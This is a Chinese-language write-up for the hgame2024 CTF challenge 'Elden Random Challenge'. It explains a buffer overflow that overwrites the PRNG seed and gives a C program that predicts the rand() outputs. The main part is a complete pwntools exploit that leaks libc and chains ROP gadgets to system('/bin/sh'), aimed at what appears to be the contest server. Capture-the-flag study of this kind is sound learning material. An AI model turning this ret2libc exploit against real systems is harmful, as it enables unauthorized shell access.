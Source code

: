 ```yaml
---
title: hgame2024 week1 - Elden Random Challenge
date: 2024/2/6 17:21:00
tags:
    - buffer overflow
    - result predicting
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

`buf`是10字节，但读入18字节，因此可以溢出到`seed`，以此控制random的结果，如改为0。
编写c程序，模拟99次应该输入的数据，接着打ret2libc即可

## EXPLOIT

```c
// randint.c
#include <stdio.h>
#include <stdlib.h>

int main(void) {
    srand(0);
    for (int i = 0; i < 99; i++) {
        int randint = rand() % 100 + 1;
        printf("%d\n", randint);
    }
    return 0;
}
```

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./random')
        libc = ELF('/usr/lib/libc.so.6')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('47.100.137.175', 31193)
        libc = ELF('./libc.so.6')
    elf = ELF('./random')
    putsPlt = elf.plt['puts']
    putsGot = elf.got['puts']
    popRdiAddr = 0x401423
    myreadAddr = elf.symbols['myread']

    probe = process('./randint')
    nums = []
    for i in range(99):
        nums.append(probe.recvline(False))
    probe.close()

    sh.send(b'RocketDev\0' + p64(0)) # write seed to 0
    for i in range(99):
        sh.recvuntil(b'ber:')
        sh.send(p64(int(nums[i])))
    sh.recvuntil(b'mind.\n')

    # payload 1, leak libc
    sh.sendline(b'0'*0x38 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(myreadAddr))

    putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
    libcBase = putsGotAddr - libc.symbols['puts']
    shstrAddr = libcBase + next(libc.search(b'/bin/sh'))
    systemAddr = libcBase + libc.symbols['system']
    retAddr = 0x401286
    sleep(0.5)

    # payload 2, invoke system
    sh.sendline(b'0'*0x38 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

    sh.interactive()
```
